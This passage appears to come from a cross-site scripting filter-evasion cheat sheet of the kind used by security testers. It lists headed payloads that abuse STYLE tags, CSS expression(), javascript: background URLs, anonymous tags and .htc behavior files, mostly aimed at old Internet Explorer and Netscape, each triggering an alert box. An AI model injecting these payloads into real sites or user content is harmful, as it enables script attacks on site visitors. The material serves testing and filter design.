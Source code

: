 ````
--------------------------------------------

This XSS at times sends IE into an infinite loop of alerts:

`<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>`

STYLE Attribute using a Comment to Break-up Expression
------------------------------------------------------

Created by Roman Ivanov

`<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">`

IMG STYLE with Expression
-------------------------

This is really a hybrid of the above XSS vectors, but it really does show how hard STYLE tags can be to parse apart, like above this can send IE into a loop:

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

STYLE Tag (Older versions of Netscape only)
-------------------------------------------

`<STYLE TYPE="text/javascript">alert('XSS');</STYLE>`

STYLE Tag using Background-image
--------------------------------

`<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>`

STYLE Tag using Background
--------------------------

`<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>` `<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>`

Anonymous HTML with STYLE Attribute
-----------------------------------

IE6.0 and Netscape 8.1+ in IE rendering engine mode don’t really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:

`<XSS STYLE="xss:expression(alert('XSS'))">`

Local htc File
--------------

This is a little different than the above two cross site scripting vectors because it uses an .htc file which must be on the same server as the XSS vector. The example file works by pulling in the JavaScript and running it as part of the style attribute:

`<XSS STYLE="behavior: url(xss.htc);">`

US-ASCII Encoding
-----------------

````